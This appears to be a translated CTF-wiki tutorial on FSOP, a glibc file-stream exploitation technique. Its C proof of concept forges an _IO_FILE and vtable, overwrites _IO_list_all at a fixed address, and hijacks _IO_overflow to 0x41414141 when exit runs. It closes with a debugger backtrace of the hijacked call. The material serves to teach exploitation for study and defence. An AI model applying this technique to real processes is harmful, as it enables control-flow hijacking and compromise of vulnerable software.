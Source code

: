# FSOP



## Introduction
FSOP is the abbreviation of File Stream Oriented Programming. According to the previous introduction to FILE, all the _IO_FILE structures in the process will be connected to each other using the _chain field to form a linked list. The header of this linked list is maintained by _IO_list_all.


The core idea of the FSOP is to hijack the value of _IO_list_all to fake the linked list and the _IO_FILE entry, but pure forgery just constructs the data and needs some way to trigger. The trigger method for FSOP selection is to call _IO_flush_all_lockp. This function will refresh the file stream of all items in the _IO_list_all list, which is equivalent to calling fflush for each FILE, and correspondingly calling _IO_overflow in _IO_FILE_plus.vtable.


```

int

_IO_flush_all_lockp (int do_lock)

{

  ...

fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)

  {

       ...

       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

        ...

  }

}

```



![](./figure/abort_routine.001.jpeg)



_IO_flush_all_lockp does not require an attacker to manually invoke it. In some cases this function will be called by the system:


1. When libc executes the abort process


2. When executing the exit function


3. When the execution flow returns from the main function




##example


To sort out the conditions used by the FSOP, the attacker first needs to know the libc.so base address, because _IO_list_all is stored as a global variable in libc.so, and _IO_list_all cannot be overwritten without leaking the libc base address.


Then you need to use any address to write the contents of _IO_list_all to pointers to our controllable memory.


The next question is what data is placed in the controllable memory, and there is no doubt that we need to lay out a vtable pointer to our ideal function. But in order for the fake_FILE we constructed to work properly, we need to lay out some other data.
The basis here is the one we gave earlier.


```

if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))

	           && _IO_OVERFLOW (fp, EOF) == EOF)

	       {

	           result = EOF;

          }

```



That is


* fp->_mode <= 0

* fp->_IO_write_ptr > fp->_IO_write_base







Here we verify this with an example. First we allocate a block of memory for the fake vtable and _IO_FILE_plus.
In order to bypass the verification, we get the offset of the data fields such as _IO_write_ptr, _IO_write_base, _mode in advance, so that the corresponding data can be constructed in the forged vtable.


```

#define _IO_list_all 0x7ffff7dd2520

#define mode_offset 0xc0

#define writeptr_offset 0x28

#define writebase_offset 0x20

#define vtable_offset 0xd8



int main(void)

{

void * ptr;
    long long *list_all_ptr;



ptr = malloc (0x200);


    *(long long*)((long long)ptr+mode_offset)=0x0;

    *(long long*)((long long)ptr+writeptr_offset)=0x1;

    *(long long*)((long long)ptr+writebase_offset)=0x0;

    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);



    *(long long*)((long long)ptr+0x100+24)=0x41414141;



    list_all_ptr=(long long *)_IO_list_all;



    list_all_ptr[0]=ptr;



    exit(0);

}

```



We use the first 0x100 bytes of allocated memory as _IO_FILE, the last 0x100 bytes as vtable, and the 0x41414141 address in the vtable as the fake _IO_overflow pointer.


After that, overwrite the global variable _IO_list_all in libc and point it to our fake _IO_FILE_plus.


By calling the exit function, the program will execute _IO_flush_all_lockp, get the value of _IO_list_all via fflush and retrieve the _IO_overflow called as _IO_FILE_plus.


```

---> call _IO_overflow

[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)

[#1] 0x7ffff7a8932a → Name: _IO_cleanup()

[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)

[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)

[#4] 0x4005ce → Name: main()



```
